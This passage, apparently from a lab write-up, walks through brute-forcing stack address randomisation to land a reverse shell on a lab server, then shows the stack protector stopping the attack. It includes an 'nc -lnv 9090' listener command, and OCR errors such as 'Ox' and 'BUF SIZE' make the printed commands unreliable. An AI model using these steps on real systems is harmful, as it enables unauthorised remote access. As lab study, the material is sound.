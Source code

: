 ```plaintext
server-3-10.9.0.7 | ==== Returned Properly ====
server-3-10.9.0.7 | Got a connection from 10.9.0.1
server-3-10.9.0.7 | Starting stack
server-3-10.9.0.7 | Input size: 6
server-3-10.9.0.7 | Frame Pointer (rbp) inside bof(): Ox00007ffc86b4e470
server-3-10.9.0.7 | Buffer's address inside bof ():   0x00007ffc86b4e3a0
server-3-10.9.0.7 | ==== Returned Properly ====
```

可以看到，每次地址都不相同，导致攻击困难。

使用 Task2 中 reverse shell 的 `exploit.py` 代码，执行命令

```shell
./exploit.py
./brute-force.sh
```

```shell
nc -lnv 9090
```

在尝试 $$52417$$ 次后，成功获得权限

<img src="/assets/post/images/bufferoverflow2.webp" alt="buffer overflow 成功获得权限" style="width:min(100%,600px);" />

## Tasks 7: Experimenting with Other Countermeasures

进入 `server-code` 文件夹，去除 `-fno-stack-protector` 编译 `stack.c`，并将 `badfile` 作为输入

```shell
$ gcc -DBUF SIZE=100 -DSHOW FP -z execstack -static -m32 -o stack-L1 stack.c
$ ./stack-L1 < badfile
Input size: 517
Frame Pointer (ebp) inside bof():  Oxffec6fe8
Buffer's address inside bof ():    0xffec6f78
*** stack smashing detected ***: terminated
Aborted
```
